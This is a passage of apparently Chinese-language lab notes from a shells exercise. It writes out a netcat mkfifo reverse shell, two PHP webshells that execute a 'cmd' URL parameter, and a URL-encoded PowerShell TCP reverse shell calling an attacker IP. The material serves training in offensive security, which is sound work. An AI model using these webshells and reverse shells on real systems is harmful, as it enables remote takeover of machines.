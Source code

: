 ![image-20221008003001245](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221008003001245.png)

使用netcat建立反向shell，在攻击机上设置监听器，使用ssh界面远程操作目标机发出shell连接（此处使用创建命令管道的技巧）：

```shell
#在攻击机终端输入：
nc -nlvp  4444
#在ssh界面输入（远程操作目标机发出shell连接）：
mkfifo /tmp/f; nc 10.10.154.186 4444 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f 
#执行成功后，在下图的左侧输入命令操作
```

![image-20221008003911600](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221008003911600.png)

#### **操作四**

要求：针对Windows VM目标机器，尝试向Windows目标机(先访问上传页面)上传并激活php反向shell，这个反向shell文件能正常工作吗？

结果：不能（观察下图中的ERROR信息）

![image-20221008113946227](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221008113946227.png)

#### **操作五**

要求：针对Windows 目标的网站站点上传一个 webshell，并尝试使用Powershell 获得一个反向 shell。

准备一个webshell文件(文件内容和前面一样):

```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
//或者
<?php 
    if(isset($_GET[‘cmd’])) { 
        system($_GET[‘cmd’]); 
    }
?>
```

![image-20221008114307302](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221008114307302.png)

在攻击机上设置监听器，访问目标站点的webshell.php页面并在其url地址栏中添加?cmd= 然后输入以下powershell命令（设置参数为攻击机的ip和端口）：

```powershell
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.10.194.117%27%2C1234%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

![image-20221008114911567](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221008114911567.png)
